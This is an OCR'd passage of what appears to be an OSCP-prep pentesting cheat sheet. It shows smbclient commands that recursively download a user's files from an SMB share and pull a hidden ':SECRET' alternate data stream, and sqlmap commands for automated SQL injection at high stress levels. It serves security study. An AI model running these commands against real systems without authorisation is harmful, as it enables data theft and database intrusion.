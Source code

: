 ```
smbclient \\\\\\\\192.168.0.1\\\\Data -U John -c 'prompt OFF;recurse ON;cd '\\Users\\John\\';lcd '/tmp/John';mget *'

```

Alternate File Streams

List Streams

```
smbclient \\\\\\\\192.168.0.1\\\\Data -U John -c 'allinfo "\\Users\\John\\file.txt"'

```

Download Stream By Name (:SECRET)

```
get "\\Users\\John\\file.txt:SECRET:$DATA"

```

## SQLMAP

SQLMAP

DISCLAIMER:
There are a number of tools you are not allowed to use in your OSCP exam. At the time of writing, sqlmap is one of them.
Check which tools are restricted/banned before you use them in your exam. You can find detailed information about tool usage in the official exam guideline.

Get Request

Test All (Default Settings)

```
sqlmap -u "<http://192.168.0.1/database/inject.php?q=user>" --batch

```

Test All (Default Settings, High Stress)

```
sqlmap -u "<http://192.168.0.1/database/inject.php?q=user>" --batch --level=5 --risk=3

```

Post Request (Capture with BURP)

Test All (Default Settings)

```
sqlmap --all -r post_request.txt --batch

```

Test All (Default Settings, High Stress)

```
sqlmap --all -r post_request.txt --batch --level=5 --risk=3

```
